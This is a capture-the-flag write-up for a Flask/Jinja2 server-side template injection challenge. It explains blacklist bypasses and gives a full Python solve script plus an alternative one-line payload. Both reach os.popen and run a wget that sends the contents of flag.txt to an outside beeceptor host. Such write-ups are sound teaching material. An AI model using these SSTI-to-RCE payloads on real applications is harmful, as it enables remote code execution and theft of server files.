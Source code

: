 # Web - Minigolf (172) - 64 solves

## Challenge

```python
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

So we have a few things blacklisted from the standard SSTI and with a length limitation.
| Blacklist | Bypass |
|-----------|-------------------------|
| {{...}} | {%...%} |
| [...] | \|attr(...) |
| \_\_xxx\_\_ | access via request.args |

However the main problem is still fitting everything into one request. The solution then was to fill `config.items` with our own strings. For example, the RCE payload could be set with

```
config.update(c="wget xxx.beeceptor.com/$(cat flag.txt)")
```

And accessed later via `config.c`

`lipsum` is also a method that is available globally, so to generate a shorter payload instead of `cycler.next` (in the author's intended), we can use `lipsum` as the base object to access the `os` object.

## Full Solution

```python
import requests
from urllib.parse import unquote

url = "http://minigolf.chal.imaginaryctf.org/"

def req(payload):
    r = requests.get(url + "?txt=" + payload)
    t = unquote(r.text)
    t = t.replace('&lt;', '<')
    t = t.replace('&gt;', '>')
    t = t.replace('&#39;', '\'')
    print(t)

pay = """{%if config.update(c=request.args.c)%}{%endif%}&c=wget https://asdfasdfasdf.free.beeceptor.com/$(cat flag.txt)"""
req(pay)
pay = "{%if (lipsum|attr(request.args.d)).os.popen(config.c)%}{%endif%}&d=__globals__"
print("Length:", len(pay.split('&')[0]))
req(pay)
```

## Flag

```
ictf{whats_in_the_flask_tho}
```

## Other solutions

```
{%set a=request.args%}{%set b=(cycler.next|attr(a.g)).os.popen(a.c)%}&g=__globals__&c=wget https://xxx.free.beeceptor.com/`cat f*`
```

- basically combining 2 requests into 1

### References

- https://chowdera.com/2020/12/20201221231521371q.html
- https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can
- https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti
